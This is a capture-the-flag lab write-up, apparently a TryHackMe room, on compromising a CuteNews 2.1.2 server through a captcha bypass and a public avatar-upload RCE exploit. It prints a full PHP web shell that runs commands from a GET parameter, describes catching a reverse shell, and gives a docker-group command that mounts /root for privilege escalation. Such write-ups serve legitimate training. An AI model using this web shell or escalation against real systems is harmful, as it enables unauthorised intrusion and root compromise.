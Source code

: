 # zSecurity Cute

***

## Difficulty == Medium

![httptryhackme comjrzsecurityctf2](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/6efcd269-7e9c-4d17-8ea1-5be1850d6812)

***

Running our nmap scan we have 

```shell
# Nmap 7.94 scan initiated Fri Sep 15 07:13:45 2023 as: nmap -p- -sVC --min-rate=100 -T4 -v -oN nmap.txt 10.10.118.131
Increasing send delay for 10.10.118.131 from 5 to 10 due to 11 out of 25 dropped probes since last increase.
Warning: 10.10.118.131 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.118.131
Host is up (0.13s latency).
Not shown: 65525 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5c:98:a2:10:30:e3:65:4e:88:96:05:7b:b3:9d:0f:3c (RSA)
|   256 de:fd:60:5f:39:b3:c4:c6:7f:aa:bc:5c:64:7c:7c:e2 (ECDSA)
|_  256 00:41:7d:63:29:57:36:64:bc:00:ec:8f:e4:41:5f:d0 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4343/tcp  filtered unicall
6245/tcp  filtered unknown
12512/tcp filtered unknown
18111/tcp filtered unknown
27523/tcp filtered unknown
29407/tcp filtered unknown
45422/tcp filtered unknown
60967/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 15 07:25:24 2023 -- 1 IP address (1 host up) scanned in 698.96 seconds
```

Navigating to port 80, we have a login page, i tried several default credentials but non seems to work

![](https://i.imgur.com/I9rFnZI.png)

So i decided to **"Register"** but we need some kind of captcha test, which we don't have because this website doesn't seem to have any captcha running

![](https://i.imgur.com/NWBlteg.png)

I decided to run a directory bruteforce and we have some interesting files on this server including a `captcha.php` page, Right from here have started to see shell already, lmfao 😂

![](https://i.imgur.com/7eqFs12.jpg)

Navigating to `/captcha.php` we have a text, which literally looks like the text we need for this registration, One thing i also noticed is if you refresh this page, you get a different text

![](https://i.imgur.com/PoXetHo.png)

So i created an account with the username and password as `test:test1` and we were logged in

![](https://i.imgur.com/prGbbbr.png)

Clicking the **Personal Options** menu takes us to where we can edit our profile

![](https://i.imgur.com/BxgZ69c.png)

We can see here that we can upload an avatar , This could thereforefor lead to a potential RCE vulnerability, In which Enumerating the CMS version, `Cutenews 2.1.2` ,
gives us an RCE exploit on [github](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE).

![](https://i.imgur.com/bObO9rl.png)

Make sure to clone into the exploit directory and then change the details in the `rev.php` file to your VPN IP and desired port :

![](https://i.imgur.com/ev4GtWG.png)

We can then go ahead and start up our listener then launch our exploit as shown in the image below

![](https://i.imgur.com/XrRFNvj.jpg)

Oops, well we didn't get a shell because the web server is not executing this file directly, it is passing it to another IP ADDRESS (I noticed this when i did upload a file in the legal way 😂)

![](https://i.imgur.com/uDnSj6r.png)

![](https://i.imgur.com/GSxkp4R.png)

Now we can launch our exploit again and then navigating to the path which our exploit was uploaded to manually

![](https://i.imgur.com/BcNWvJs.jpg)

![](https://i.imgur.com/F3kCe9n.png)

Note that i did change the code in `shell.php` as shown below

```PHP
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Now we can upload our PHP, Python, Bash or even NC shell through this web shell and get our reverse shell back (I used PHP ☢️)

![](https://i.imgur.com/kXghOcO.png)

We finally got the user flag in the user `jim` home's directory, we can then move on to privilege escalation

![](https://i.imgur.com/OV1qDrg.png)

![](https://i.imgur.com/bvx8CKW.gif)

***
### Privilege Escalation

Running the `id` command we can see that www-data belongs to the supplementary group `docker`. 

![](https://i.imgur.com/KRmVbhf.png)

As shown by [securiumsolutions](https://securiumsolutions.com/docker-privilege-escalation/) , we can get root by using this payload ` docker run -v /root:/mnt -it alpine` , as shown below 👇

![](https://i.imgur.com/ghOZvRb.png)

Note that when you do privilege Escalation with docker or container services, the root flag is always stored at `/mnt`, Have Fun 😘

![](https://i.imgur.com/ypxtZBV.gif)

